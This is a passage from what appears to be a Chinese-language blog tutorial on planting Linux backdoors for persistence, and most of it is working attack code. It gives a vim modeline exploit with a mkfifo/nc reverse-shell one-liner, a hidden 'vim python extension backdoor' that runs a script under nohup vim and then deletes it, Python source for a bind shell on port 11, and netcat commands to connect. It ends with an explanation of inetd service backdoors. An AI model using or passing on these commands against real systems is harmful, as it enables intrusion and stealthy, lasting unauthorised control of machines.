 ![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165831251-1080934852.png)

反弹 shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert\_fails("source\\!\\ \\%"):fdl=0:fdt="


```

#### vim python 扩展后门

适用于安装了 vim 且安装了 python 扩展 (绝大版本默认安装) 的 linux 系统。



```
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py


```

恶意脚本 dir.py 的内容可以是任何功能的后门，比如监听本地的 11 端口：

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import \*
import subprocess
import os, threading, sys, time
if \_\_name\_\_ == "\_\_main\_\_":
       server=socket(AF\_INET,SOCK\_STREAM)
       server.bind(('0.0.0.0',11))
       server.listen(5)
       print 'waiting for connect'
       talk, addr = server.accept()
       print 'connect from',addr
       proc = subprocess.Popen(\["/bin/sh","-i"\], stdin=talk,
               stdout=talk, stderr=talk, shell=True)


```

攻击机 nc 连接过去就可以了:

```
nohup vim -E -c "pyfile dir.py"
nc 127.0.0.1 11


```

### 0x08 inetd 服务后门

inetd 是一个监听外部网络请求 (就是一个 socket) 的系统守护进程，默认情况下为 13 端口。当 inetd 接收到一个外部请求后，它会根据这个请求到自己的配置文件中去找到实际处理它的程序，然后再把接收到的这个 socket 交给那个程序去处理。所以，如果我们已经在目标系统的 inetd 配置文件中配置好，那么来自外部的某个 socket 是要执行一个可交互的 shell，就获取了一个后门。
